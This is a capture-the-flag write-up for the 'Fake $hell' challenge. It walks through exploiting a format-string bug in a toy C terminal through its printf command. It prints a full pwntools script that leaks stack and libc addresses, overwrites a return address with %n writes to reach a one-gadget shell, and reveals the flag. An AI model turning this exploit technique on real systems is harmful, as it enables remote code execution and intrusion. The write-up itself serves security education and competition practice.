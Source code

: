 # Fake $hell

![alt challenge](./fakeshell.jpg)

### Description
```
While learning programming, I wrote a small fake terminal in C, it's very simple very few
supported commands, and only safe operations (no unsafe system() calls for example).
It is accessible at: terminal.challs.shellmates.club:1337

Goal: Prove you can escape from the fake shell to the real shell.
```
```
pwndbg> checksec 
RELRO           STACK CANARY      NX            PIE
Partial RELRO   No canary found   NX enabled    PIE enabled
```
Here is the ![Terminal](./terminal) binary and the ![libc](./libc-2.27.so) files.<br>
When we connect using netcat and check the supported commands, we find these eight commands<br>
```
mate@pwnable:/ $ help
Supported commands
ls	id	whoami	echo	printf
cat	pwd	cd	help	exit
mate@pwnable:/ $
```
good, we can use printf() to leak addresses to bypass ASLR and write anywhere in memory<br>
by looking at the decompiled binay with ghidra we find an interessting function process_cmd()<br>
which executes the parced command and return, we will overwrite its return address to spawn<br>
a shell using one gadget:<br>
```
$ one_gadget libc-2.27.so 
0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
in this ![python script](./exploit.py) i leaked rbp to calculate the address of the format string<br>
and libc_start_main (the return address of main) to calculate the address of one gadget at run time<br>
```python
#!/usr/bin/env python2
from pwn import *
from time import sleep


one_gadget_offset = 0xe87f5

while True:
    sleep(2)
    try:
        s = remote ('terminal.challs.shellmates.club', 1337)
    except:
        continue
    #leaking rbp and calculating the return address
    payload = 'printf %8$lp'
    s.sendline(payload)
    s.recvuntil('0x')
    ret  = int(s.recv(12), 16) - 0x418
    ret1 = p64(ret)
    ret2 = p64(ret + 2)
    ret3 = p64(ret + 4)
    log.info('return address: '+ str(hex(ret)))

    #leaking libc_start_main address and calculating one gadget address
    payload = 'printf %141$lp'
    s.sendline(payload)
    s.recvuntil('0x')
    libc_start_main = int(s.recv(12), 16)
    one_gadget = libc_start_main + one_gadget_offset
    log.info('one gadget address: '+ str(hex(one_gadget)))

    #calculating lenght for %n to overwrite the return address with one gadget
    length1 = (one_gadget & 0xffff) - 1
    length2 = (one_gadget >> 16 & 0xffff) - length1 -1
    length3 = (one_gadget >> 32 & 0xffff) - length1 - length2 -1

    #to construct the address two bytes at the time, the lengths have to be from smaller to bigger
    if (length2 < 0) or (length3) < 0:
        log.info('bad address, try again.')
        s.close()
        continue


    #overwriting the return address with one gadget address
    payload  = 'printf a'
    payload += '%' + str(length1) + 'd'
    payload += '%16$n'
    payload += '%' + str(length2) + 'd'
    payload += '%17$n'
    payload += '%' + str(length3) + 'd'
    payload += '%18$nh'
    payload  = payload.ljust(0x30, '\0')
    payload += ret1 + ret2 + ret3

    #the constraint of one gadget is [rsp+0x70] == NULL
    payload  = payload.ljust(0x400, '\0')

    s.sendline(payload)
    s.interactive()
    s.close()
```
Once we have a shell on the server, we find the challenge source code files [terminal.c](./terminal.c) and [terminal.h](./terminal.h)<br>
and the flag!
# Flag
```
$ cat flag.txt
shellmates{f4ke_term1nal_r3al_pr1%ntf!}
$
```
